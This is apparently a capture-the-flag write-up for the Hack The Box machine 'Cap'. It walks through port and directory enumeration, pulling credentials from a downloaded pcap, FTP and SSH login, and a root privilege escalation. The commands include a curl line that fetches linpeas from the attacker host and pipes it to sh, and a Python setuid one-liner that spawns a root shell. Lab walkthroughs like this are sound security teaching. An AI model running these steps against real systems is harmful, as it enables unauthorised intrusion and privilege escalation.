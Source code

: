 # Cap Writeup
<br>

## NMAP

```bash
nmap -sC -sV -p- cap.htb -oN cap_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 01:06 EDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.67 seconds
```

FTP anonymous access is NOT allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:netcur10s): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

```

SSH password authentication allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ssh root@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
root@cap.htb's password: 
```

## GoBuster

Ran Gobuster to see if any directories of interest

```bash
┌──(netcur10s㉿lab-kali)-[~/HTB/Cap]
└─$ gobuster dir -u cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17465]
/netstat              (Status: 200) [Size: 32741]
/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/13]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Checked out the redirect address http://cap.htb/data/13 which has a download button

![image.png](screenshots/image.png) 

Downloaded the file seems to be a pcap file 0.pcap

Searching through the pcap file for any good information

Able to find user credentials

![image1.png](screenshots/image1.png)

Credentials found nathan:Buck3tH4TF0RM3!

## FTP(21)

Attempted to log into FTP under nathan and using this password Buck3tH4TF0RM3!

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22860|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Aug 21 00:21 snap
-r--------    1 1001     1001           33 Aug 20 19:14 user.txt
226 Directory send OK.
ftp> 
```

## SSH(22)

These credential also work using SSH

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Checking to see if curl & python are installed

```bash
nathan@cap:~$ which curl python3
/usr/bin/curl
/usr/bin/python3
```

Performing linpeas scan

```bash
nathan@cap:~$ curl http://10.10.14.61:80/linpeas.sh | sh
```

linpeas scanned and found a potential pkexec exploit and a Python binary vulnerability.

Checked GTFOBins for more information about the Python vulnerability.

```bash
Capabilities

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

    cp $(which python) .
    sudo setcap cap_setuid+ep python

    ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

Attempted to execute > Successful!

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# 
```

Changed to root directory 

Listed current directory with `ls` command and used `cat` to print out to screen

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
```

